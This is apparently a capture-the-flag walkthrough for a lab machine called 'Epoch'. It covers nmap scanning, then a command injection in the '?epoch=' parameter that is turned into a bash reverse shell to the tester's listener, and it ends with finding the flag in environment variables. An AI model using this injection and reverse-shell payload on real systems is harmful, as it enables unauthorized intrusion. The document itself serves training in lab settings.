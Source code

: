 **Target: 10.10.19.222 	Epoch**

**Initial Access:**\
nmap -Pn  10.10.19.222  --min-rate=5000 -p-\
Output from nmap shows open ports 22,80

Enumerating open ports further with nmap:\
nmap -Pn 10.10.19.222  --min-rate=5000 -p 22,80 -sC -sV -oN nmap.epoch

![image](https://user-images.githubusercontent.com/93153300/198738065-a99e4244-85de-43b5-9bd4-e1f6ffc950d4.png)
 
Navigating to port 80 shows:

![image](https://user-images.githubusercontent.com/93153300/198738126-f1258038-61f3-4d1d-a76c-76cfa34f777e.png)
 
Let’s test the converter.  Put a random word in:

![image](https://user-images.githubusercontent.com/93153300/198738176-59b4db1d-70e0-473a-b704-a3aced5d3dd7.png)
 
We see in the url that we are taken to a directory /?epoch=

Testing for command injection let’s try:   blob;id;
Found command injection, the command 'id' ran:

![image](https://user-images.githubusercontent.com/93153300/198738230-92e20d5b-4882-4560-9602-01fbfe92a571.png)
 
Let’s use this to get a reverse shell.  First, open a netcat listener: nc -lvnp 443 (I will use pwncat: pwncat-cs -lp 443).  Next, replace blob;id with: blob;bash -c 'bash -i >& /dev/tcp/10.2.1.148/443 0>&1'\
We got shell as challenge:

![image](https://user-images.githubusercontent.com/93153300/198738276-4a3062e7-51c9-466a-8fec-41b536fc5314.png)
_____________________________________________________________
Upon checking environment variables we find the flag:

![image](https://user-images.githubusercontent.com/93153300/198738301-c47df8d5-9797-453f-82ff-b3984c3b6021.png)
 

This machine only had one flag, and was not made for privilege escalation to get root. So our work here is done.
